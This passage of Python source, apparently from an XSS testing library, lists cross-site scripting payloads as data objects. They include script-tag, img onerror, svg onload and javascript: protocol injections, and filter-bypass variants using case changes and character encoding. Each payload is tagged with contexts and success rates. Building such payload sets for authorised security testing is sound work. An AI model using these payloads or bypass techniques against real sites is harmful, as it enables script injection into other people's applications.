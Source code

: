 ```python
                category=PayloadCategory.BASIC,
                description="Classic script tag injection",
                contexts=["html_content"],
                bypass_techniques=[],
                success_rate=0.8,
                source="OWASP"
            ),
            XSSPayload(
                payload='<img src=x onerror=alert("XSS")>',
                category=PayloadCategory.BASIC,
                description="Image tag with onerror event",
                contexts=["html_content", "attribute_value"],
                bypass_techniques=[],
                success_rate=0.9,
                source="Common"
            ),
            XSSPayload(
                payload='<svg onload=alert("XSS")>',
                category=PayloadCategory.BASIC,
                description="SVG tag with onload event",
                contexts=["html_content"],
                bypass_techniques=[],
                success_rate=0.85,
                source="HTML5"
            ),
            XSSPayload(
                payload='javascript:alert("XSS")',
                category=PayloadCategory.BASIC,
                description="JavaScript protocol injection",
                contexts=["url_parameter", "attribute_value"],
                bypass_techniques=[],
                success_rate=0.7,
                source="Classic"
            ),
            XSSPayload(
                payload='" onclick=alert("XSS") "',
                category=PayloadCategory.BASIC,
                description="Attribute breaking with event handler",
                contexts=["attribute_value"],
                bypass_techniques=["attribute_breaking"],
                success_rate=0.75,
                source="Attribute injection"
            )
        ]
    
    def _load_bypass_payloads(self) -> List[XSSPayload]:
        """Payloads designed to bypass common filters"""
        return [
            XSSPayload(
                payload='<ScRiPt>alert("XSS")</ScRiPt>',
                category=PayloadCategory.BYPASS,
                description="Case variation to bypass case-sensitive filters",
                contexts=["html_content"],
                bypass_techniques=["case_variation"],
                success_rate=0.6,
                source="WAF bypass"
            ),
            XSSPayload(
                payload='<script>alert(String.fromCharCode(88,83,83))</script>',
                category=PayloadCategory.BYPASS,
                description="String encoding to hide payload content",
                contexts=["html_content"],
                bypass_techniques=["encoding"],
```